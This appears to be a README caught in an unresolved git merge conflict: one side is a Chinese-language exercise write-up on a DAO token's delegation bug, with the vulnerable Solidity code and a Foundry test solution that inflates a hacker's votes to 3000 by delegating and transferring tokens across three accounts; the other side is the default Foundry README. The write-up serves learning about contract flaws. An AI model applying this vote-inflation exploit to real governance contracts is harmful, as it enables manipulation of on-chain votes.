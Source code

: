 <<<<<<< HEAD
W2

大前提 hacker 取得三位使用者的 private key

### 合約漏洞
- 首先是 `mapping(address => address) internal _delegates;` 
這個變數的問題，這個變數是用來記錄使用者的代表人，但是這個變數是 `internal` 的，所以可以直接透過 `delegate` 這個函數來修改其他使用者的代表人。

- mapping 還沒產生時，會是空值，所以透過 `_delegates[_addr]` 來取值時，會是 0x0000000000000000000000000000000000000000
- 然而 `_moveDelegates` if (from != to && amount > 0) 這個判斷式，只要 from != to 就會執行，
- 所以只要 from 是 0x if (from != address(0)) 跳過，只執行 if (to != address(0)) 這個判斷式。
這騷操作，確實不好看....。

```js
    function delegate(address _addr) external {
        // msg.sender: 0x0000000000000000000000000000000000000001
        // hacker: 0x0000000000000000000000000000000000001337
        return _delegate(msg.sender, _addr);
    }
    function _delegate(address _addr, address delegatee) internal {
        address currentDelegate = _delegates[_addr]; // 還沒設定前 _delegates[_addr] 還是空 所以回傳遞只會是 0x0000000000000000000000000000000000000000
        uint256 _addrBalance = balanceOf(_addr);
        _delegates[_addr] = delegatee;
        _moveDelegates(currentDelegate, delegatee, _addrBalance);
    }
    function _moveDelegates(address from, address to, uint256 amount) internal {
        if (from != to && amount > 0) {
            if (from != address(0)) {
                uint32 fromNum = numCheckpoints[from];
                uint256 fromOld = fromNum > 0 ? checkpoints[from][fromNum - 1].votes : 0;
                uint256 fromNew = fromOld - amount;
                _writeCheckpoint(from, fromNum, fromOld, fromNew);
            }

            if (to != address(0)) {
                uint32 toNum = numCheckpoints[to];
                uint256 toOld = toNum > 0 ? checkpoints[to][toNum - 1].votes : 0;
                uint256 toNew = toOld + amount;
                _writeCheckpoint(to, toNum, toOld, toNew);
            }
        }
    }
```

### 攻擊方式


過程

- 1. hacker 使用 alice 的 錢包地址，執行 `delegate` 函數，將 alice 的代表人設定為 hacker 自己，hacker 代表人獲得 1000 vote。
- 2. hacker 使用 alice 的 錢包地址，執行 `transfer` 函數，將 1000 token 轉給 bob。
- 3. hacker 使用 bob 的 錢包地址，執行 `delegate` 函數，將 bob 的代表人設定為 hacker 自己，hacker 代表人獲得 2000 vote。
- 4. hacker 使用 bob 的 錢包地址，執行 `transfer` 函數，將 1000 token 轉給 carl。
- 5. hacker 使用 carl 的 錢包地址，執行 `delegate` 函數，將 carl 的代表人設定為 hacker 自己，hacker 代表人獲得 3000 vote。
- 6. hacker 使用 carl 的 錢包地址，執行 `transfer` 函數，將 1000 token 轉給自己，取得代幣完美收場。


```js
  vm.startPrank(alice); // hacker using alice address
  // write your soluiton here
  daoToken.delegate(hacker); // alice delegate to hacker -> hacker vote = 1000
  daoToken.transfer(bob, 1000); // hacker using alice address send token to bob
  vm.startPrank(bob); // hacker using bob address
  daoToken.delegate(hacker); // bob delegate to hacker -> hacker vote = 2000
  daoToken.transfer(carl, 1000); // hacker using bob address send token to carl
  vm.startPrank(carl); // hacker using carl address
  daoToken.delegate(hacker); // carl delegate to hacker -> hacker vote = 3000
  daoToken.transfer(hacker, 1000); // hacker using carl address send token to hacker
```


團體作業補充回答：

https://hackmd.io/@jlUcRpm-QcOwe2cxBxjf4w/Sk07j_php
=======
## Foundry

**Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust.**

Foundry consists of:

-   **Forge**: Ethereum testing framework (like Truffle, Hardhat and DappTools).
-   **Cast**: Swiss army knife for interacting with EVM smart contracts, sending transactions and getting chain data.
-   **Anvil**: Local Ethereum node, akin to Ganache, Hardhat Network.
-   **Chisel**: Fast, utilitarian, and verbose solidity REPL.

## Documentation

https://book.getfoundry.sh/

## Usage

### Build

```shell
$ forge build
```

### Test

```shell
$ forge test
```

### Format

```shell
$ forge fmt
```

### Gas Snapshots

```shell
$ forge snapshot
```

### Anvil

```shell
$ anvil
```

### Deploy

```shell
$ forge script script/Counter.s.sol:CounterScript --rpc-url <your_rpc_url> --private-key <your_private_key>
```

### Cast

```shell
$ cast <subcommand>
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```
>>>>>>> main

